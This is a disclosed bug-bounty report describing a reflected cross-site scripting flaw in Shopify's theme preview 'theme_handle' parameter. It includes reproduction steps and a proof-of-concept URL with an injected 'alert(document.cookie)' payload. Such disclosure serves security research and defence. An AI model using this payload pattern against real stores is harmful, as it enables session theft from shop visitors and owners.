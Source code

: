 # Reflected XSS in <any>.myshopify.com through theme preview

## Report Details
- **Report ID**: 226428
- **URL**: https://hackerone.com/reports/226428
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-05-05T21:22:15.520Z
- **Disclosed**: 2017-05-29T16:06:44.441Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,
I have found a reflected cross site scripting vulnerability in `<any>.myshopify.com` through `theme_hanlde` parameter due to not single quotes.

#Steps to reproduce: 
1. Navigate to `<account>.myshopify.com` 
2. view the source of the page and copy the value of `Shopify.theme` Id.
3. Navigate to `https://echo.myshopify.com/?theme_handle=xx%27-alert(document.cookie)-%27&style_id=1&style_handle=1&preview_theme_id=<theme_ID>` 
> *replace `<theme_ID>` with the ID you just copied*.
4. XSS will trigger in all of the online shop pages unless you click `Cancel theme preview` .

**PoC:** 
`https://test.myshopify.com/?theme_handle=xx%27-alert(document.cookie)-%27&style_id=1&style_handle=1&preview_theme_id=3572` 

{F182252}
Thanks!

## Attachments
- xss-triggered.png
